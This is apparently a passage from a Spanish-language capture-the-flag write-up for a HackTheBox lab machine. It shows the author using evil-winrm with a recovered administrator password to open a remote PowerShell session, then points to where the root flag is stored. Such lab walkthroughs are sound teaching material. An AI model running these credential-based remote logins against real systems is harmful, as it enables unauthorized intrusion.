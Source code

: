 Vemos la contraseña del usuario administrador, así que vamos a validarlas con la herramienta `evil-winrm`:

```bash
❯ evil-winrm -i 10.10.11.152 -u 'administrator' -p '$@267}9a!Td}2/58tm.3hAFJ' -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Ya nos encontramos dentro de la máquina como el usuario **administrator** y podemos visualizar la flag (root.txt) la cual se encuentra en el directorio **TRX**.
